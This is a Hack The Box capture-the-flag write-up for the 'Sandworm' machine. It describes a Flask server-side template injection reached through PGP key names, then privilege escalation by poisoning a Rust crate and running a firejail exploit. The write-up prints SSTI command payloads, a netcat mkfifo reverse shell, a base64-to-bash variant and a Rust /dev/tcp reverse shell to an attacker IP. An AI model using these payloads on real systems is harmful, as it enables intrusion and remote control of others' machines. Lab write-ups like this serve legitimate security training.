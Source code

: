 # PORT SCAN

* **22** [ssh]
* **80** [tcp] &#8594; redirect to ssa.htb (port 443)
* **443** [ssl/http] &#8594; Secret Spy Agency | Secret Security Service


<br><br>

# ENUMARATION AND FOOTHOLD

![1.png](img/1.png)

The machine site is a simulation of a intelligence organization that make **SIGINT** a intelligence type based on electronic signals and systems (ex :/ comunication systems and radar)

With directory busting I've discovered a login page at **/login**,**/view** and **/admin**

![5.png](img/5.png)

We have the mainpage, an about page and **contact** where we can send PGP encrypted text

![2.png](img/2.png)

Connected to the **/contact** page we have the guide providing a PGP Encryption Demonstration and in the bottom page we have a demonstration text and a (potential) username **<u>atlas</u>**

![3.png](img/3.png)

Obviously we need to import their PGP public key and try to verify the example message provided to us. We know they are using **GNUPGP** (pretty obvious is the most popular but good thing to check it) and are made with **RSA algorithm**

![4.png](img/4.png)

<br>

I've try to verify a costum key and see if a OS injection is possible somehow

![6.png](img/6.png)

Let's create a message with a gpg signature

![7.png](img/7.png)

And display the pubblic key

![9.png](img/9.png)

Than copy the sined text and pubblic key on the apposite 2 section and press **"Verify Signature"**

![10.png](img/10.png)

Note that the username is displayed on the output box and can be the entry point for a **OS injection vulnerability** let's try with a simple `; whoami #` as username for a brand new pgp key. If we the luck is with use the usranem displayed will be the one of the user who is running the PGP signature verification 

Now same procedue as before and check the displayed box

![12.png](img/12.png)

This time I was unlucky :( but we can actually inject a string in the serverside simple but is something!

We need something more sophisticated than a simple OS injection, one technique is [Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection) (SSTI).

In short an attacker can use ntive template syntax in order to inject malicious code that will be executed by the server.

[Here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) you can find some examples 

The template is something which create dynamic part (based on parameter) of a website in our case the textbox after we verify the signature (the website is based on flask which have the option to use a template engine)

First we need to make some fuzzing and detect if this vulnerability is present or not on this sites (we already know where actually),
Hacktricks suggest us to use this payload `{{7*7}}` (there are more obv) a name of a GPG KEY and verify the signature

![13.png](img/13.png)

Another cool guide is [this one](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/) which offer some fuzzing payload to inject tot est if we can make some OS injection using SSTI

Let's try to inject a **id** command using `{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}` as payload

This time it worked! 

![14.png](img/14.png)

Cool we can inject some OS code this means...**REVERSE SHELL**, the guide above offers some payload for this purpose and I will use this one 

`{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc [IP] [PORT] 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}`

This one will not work maybe tere are some filter which can be bypassed with a base64 payload like this one

`('os').popen('echo [BASE64_STRING] | base64 -d | bash').read() }}`

After concluding the verify procedure we got a shell

![15.png](img/15.png)

<br><br>

# PRIVILEGE ESCALATION #1
We are logged in as **atlas** and there is no flag in his home folder but we have another user inside called **silentobserver**

![16.png](img/16.png)

Inside the path `/home/atlas/.config` we have a weird file

![17.png](img/17.png)

[Firejail](https://firejail.wordpress.com/) is a sandbox program which restrict the running enviroment to mitigate the consequence of a security breach. That's why some commands like `which` doesn't work for this user

The other file inside the **atlas home folder** is [HTTPIE](https://github.com/httpie/httpie) directory. Maybe inside we can find some information or hardcoded credentials.

Gottch'a we got the credential for the **silentobserver** user now we can make the login through ssh and take the user flag

![18.png](img/18.png)

<br><br>

# PRIVILEGE ESCALATION #2
Tried with the usual run of **linpeas** but nothing usefull. With **pspy64** we maybe have something

![19.png](img/19.png)

Here the ROOT user run 2 tools **cargo** and **tipnet** :
* **CARGO** = is the rust packet manager like <u>pip</u> in python, in this exercise is just building and running the input project in "offline" mode (mo download or update attempt)
* **TIPNET** = Costum rust code the source file is inside the file located at `/opt/tipnet/src/main.rs` and run with the **e** flag so we can see what happen when this snippet of bash code is called

Inside the **TIPNET** main code file we can see a external library used

![20.png](img/20.png)

I can't find where is located but looking at the first screenshot of this section I've noted that the root user clean the `/opt/crates` folder so probably is located there...BINGO!

![21.png](img/21.png)

We can modify this piece of code but the command is run with `sudo -u atlas` so we have atlas low privilege.....wait a second

If we make this code for a reverse shell with rust

```rust
use std::process::Command;

    let command = "bash -i >& /dev/tcp/10.10.14.183/1234 0>&1";

    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("works!");

    if output.status.success() {
        println!("pwn");
    } else {
        let stderr = String::from_utf8_lossy(&output.stderr);
        eprintln!("gg: {}", stderr);
    }
```


we will get a reverse shell with **atlas** but outside the <u>firejail</u> and with th same ID of current user plus a different group membership called **<u>jailer</u>**

![22.png](img/22.png)

Maybe I get why the machine is called **sandworm** we have started down from the firejail than we go up with the current user and at last we return back with atlas(?). Idk if this is the motivation the creator cme out when choosing a name for this machine but I like to think it this way

Set the above code snippet inside the `lib.rs` file and wait until the reveese shell pop out

Let's what we can do with this new user, I've started with `find / -perm 400 2>/dev/null` so I can easly find SUID binary that can be run by the user **atlas** and I find it. Again we have to deal with **<u>firejail</u>** (pretty fun that something have to mitigate security breach is actually being the support to expand it lol)

![23.png](img/23.png)

I've found 2 exploit online ([python](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) and [C](https://www.exploit-db.com/exploits/41022))  but no CVE has been assigned to this (idk why actually) I pick the pyton one

For a smoother execution of the exploit I saved the `id_rsa.pub` key in the `authorized_keys` of atlas so I can access through ssh whenever I need

Now in the first teminal go and run the exploit

![24.png](img/24.png)

The rest is pretty obvious go in another ssh session and execute the first **firejail** command and than `su -` (`sudo su -` will not work because atlas is not in sudoers) to gain root!

![25.png](img/25.png)

